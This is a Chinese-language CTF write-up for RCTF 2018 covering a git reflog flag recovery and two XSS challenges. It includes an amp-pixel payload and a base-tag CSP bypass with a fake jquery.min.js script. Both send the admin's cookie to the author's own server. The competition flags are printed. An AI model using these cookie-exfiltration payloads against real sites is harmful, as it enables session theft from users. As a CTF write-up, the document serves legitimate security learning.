 # RCTF 2018
剛打完DEFCON CTF，聽到又有大陸這邊辦的比賽就有來打了，整體上XSS的出題比率挺高的！  

# Misc - git
這次比賽最水的一題，還是留個wp在這好了，觀念是從`.git`還原倉庫的程式碼  
```php
shimaodeMBP:git shimao$ git reflog
	22d3349 (HEAD -> master) HEAD@{0}: checkout: moving from develop to master
	f4d0f6d (develop) HEAD@{1}: reset: moving to f4d0f6d
	f4d0f6d (develop) HEAD@{2}: reset: moving to f4d0f6d
	22d3349 (HEAD -> master) HEAD@{3}: reset: moving to 22d3349a5c6fe45758daba276108137382a01caa
	22d3349 (HEAD -> master) HEAD@{4}: checkout: moving from master to develop
	22d3349 (HEAD -> master) HEAD@{5}: reset: moving to 22d3349a5c6fe45758daba276108137382a01caa
	22d3349 (HEAD -> master) HEAD@{6}: reset: moving to 22d3349a5c6fe45758daba276108137382a01caa
	22d3349 (HEAD -> master) HEAD@{7}: reset: moving to 22d3349a5c6fe45758daba276108137382a01caa
	22d3349 (HEAD -> master) HEAD@{8}: checkout: moving from develop to master
	22d3349 (HEAD -> master) HEAD@{9}: rebase -i (finish): returning to refs/heads/develop
	22d3349 (HEAD -> master) HEAD@{10}: rebase -i (start): checkout 22d3349
	f671986 HEAD@{11}: checkout: moving from master to develop
	22d3349 (HEAD -> master) HEAD@{12}: checkout: moving from develop to master
	f671986 HEAD@{13}: checkout: moving from master to develop
	22d3349 (HEAD -> master) HEAD@{14}: checkout: moving from rctf to master
	f671986 HEAD@{15}: commit: Revert
	f4d0f6d (develop) HEAD@{16}: commit: Flag
	22d3349 (HEAD -> master) HEAD@{17}: checkout: moving from master to rctf
	22d3349 (HEAD -> master) HEAD@{18}: commit (initial): Initial Commit
shimaodeMBP:git shimao$ git reset --hard f4d0f6d
	HEAD is now at f4d0f6d Flag
shimaodeMBP:git shimao$ ls
	HelloWorld.txt flag.txt
shimaodeMBP:git shimao$ cat flag.txt
	RCTF{gIt_BranCh_aNd_l0g}
```
提交flag`RCTF{gIt_BranCh_aNd_l0g}`

# Web - amp
這題用`name`作為GET請求的參數，但是一般的xss卻受到CSP阻饒  
```php
shimaodeMBP:webcocktail shimao$ curl http://amp.2018.teamrois.cn -v

* Rebuilt URL to: http://amp.2018.teamrois.cn/
*   Trying 149.28.139.172...
* TCP_NODELAY set
* Connected to amp.2018.teamrois.cn (149.28.139.172) port 80 (#0)
> GET / HTTP/1.1
> Host: amp.2018.teamrois.cn
> User-Agent: curl/7.54.0
> Accept: */*
>
< HTTP/1.1 200 OK
< Server: nginx/1.14.0 (Ubuntu)
< Date: Mon, 21 May 2018 14:13:53 GMT
< Content-Type: text/html; charset=UTF-8
< Content-Length: 1930
< Connection: keep-alive
< X-Powered-By: PHP/7.2.5
< Content-Security-Policy: script-src 'nonce-ad0eab17ed448e21824e6536850f5913' 'strict-dynamic'; style-src 'unsafe-inline'
< Set-Cookie: FLAG=flag_is_in_admin_cookie
< Vary: Accept-Encoding
<
<!doctype html>
<html ⚡>
  <head>
    <meta charset="utf-8">
    <script async src="https://cdn.ampproject.org/v0.js" nonce="ad0eab17ed448e21824e6536850f5913"></script>
    <title>⚡</title>
    <link rel="canonical" href="http://example.ampproject.org/article-metadata.html">
    <meta name="viewport" content="width=device-width,minimum-scale=1,initial-scale=1">
    <script type="application/ld+json" nonce="ad0eab17ed448e21824e6536850f5913">
      {
        "@context": "http://schema.org",
        "@type": "NewsArticle",
        "headline": "Open-source framework for publishing content",
        "datePublished": "2015-10-07T12:02:41Z",
        "image": [
          "logo.jpg"
        ]
      }
    </script>
    <style amp-boilerplate>body{-webkit-animation:-amp-start 8s steps(1,end) 0s 1 normal both;-moz-animation:-amp-start 8s steps(1,end) 0s 1 normal both;-ms-animation:-amp-start 8s steps(1,end) 0s 1 normal both;animation:-amp-start 8s steps(1,end) 0s 1 normal both}@-webkit-keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}@-moz-keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}@-ms-keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}@-o-keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}@keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}</style><noscript><style amp-boilerplate>body{-webkit-animation:none;-moz-animation:none;-ms-animation:none;animation:none}</style></noscript>
    <style amp-custom>body {background:url(background.jpg) no-repeat;background-size:cover;}html,body,.main{min-height:100vh;width:100%;color:#fff;}.main{align-items: center;display: flex;justify-content: center; flex-direction: column;}.main *{ zoom: 2;}.grecaptcha-badge{display: none}</style>
  </head>
  <body>
      <div class="main">
        <h1>HEY</h1>
        <h3>INPUT YOUR NAME AFTER QUERYSTRING</h3>
      </div>
  </body>
</html>
* Connection #0 to host amp.2018.teamrois.cn left intact
```
1. 解讀上面的CSP發現我們的`<script>`如果沒有`nonce`隨機數就不能執行  
2. 解讀提示會發現這個頁面用的可能是AMP標準  
3. 上面的`set-cookie`header中說`flag`在admin的cookie裡  
結論：我們想辦法用AMP tag來獲取admin`flag`的cookies  
payload:`url?name=<amp-pixel src="http://my_server/?q=CLIENT_ID(FLAG)"></amp-pixel>`  
原本收到的request會長這樣：`?q=flag_is_in_admin_cookie`  
再按下`STOP TRACKING ME`的按鈕之後  
就會得到：`?q=RCTF%7BEl_PsY_CONGRO0_sg-%7d`  
GET FLAG!!  
![]()  

# Web - r-cursive

# Web - rblog
網站頁面有post的功能，經過幾次測試之後我們可以推斷`title`的部分有xss的漏洞(content的部分被轉譯得相當乾淨
```php
$ curl -I http://rblog.2018.teamrois.cn/
HTTP/1.1 200 OK
Date: Sat, 19 May 2018 17:42:22 GMT
Server: Apache/2.4.25 (Debian)
X-Powered-By: PHP/7.2.5
Referrer-Policy: strict-origin
X-Frame-Options: DENY
Content-Security-Policy: default-src 'none'; script-src 'nonce-00bf5d37284fd8cabb55d18a943b5fc3'; frame-src https://www.google.com/recaptcha/; style-src 'self' 'unsafe-inline' fonts.googleapis.com; font-src fonts.gstatic.com; img-src 'self'
Content-Type: text/html; charset=UTF-8
```
接下來是CSP的解讀：  
```php
default-src 'none'; 
script-src 'nonce-00bf5d37284fd8cabb55d18a943b5fc3';
```
我們必須繞過隨機數  
這時我一時興起就把CSP丟進了[google csp evaluator](https://csp-evaluator.withgoogle.com/):  
```php
errorbase-uri [missing]
Missing base-uri allows the injection of base tags. They can be used to set the base URL for all relative (script) URLs to an attacker controlled domain. Can you set it to 'none' or 'self'?
```
這個evaluator相當於告訴我們可以用`<base>`繞過，而exploit的概念就是相對路徑...  
在我們的blog post中可以發現幾個引入的js  
```php
<script nonce="10b2226d5736a0e6ba9641afad038c03" src="/assets/js/jquery.min.js"></script>
```
因此如果我們的post中有`<base href="http://xxx/">`，那引入的js也會變成`http://xxx/assets/js/jquery.min.js`。  
這是一個重大的發現，因為如果`xxx`是我們可控的，我們就可以進而偽造一個沒有CSP的`jquery.min.js`！  
開始exploit前我們先整理一下攻擊思路：  
1. 送出帶有`<base>`標籤的post，進而改變要請求的`jquery.min.js`  
2. 官方有個功能，我們report我們的post，而他會去看... 在他看的時候就會對我們的`jquery.min.js`發出請求  
3. 我們開一個端口接收這個請求帶著的cookie就大吉大利囉  

Exploit：  
`title`部分輸入`<base href="http://18.216.228.129:8080/" />`，此ip為我可控的server  
![]()  
創建`http://18.216.228.129:8080/assets/js/jquery.min.js`，內容為:  
```php
function hello(){
	location.href="http://18.216.228.129:8000/?"+document.cookie;
}
hello();
```
這時候主動去翻翻我們的blog post，會被直接跳轉到`18.216.228.129:8000`的頁面，同理admin也是一樣，我們只要收到request就可以查到cookie了！
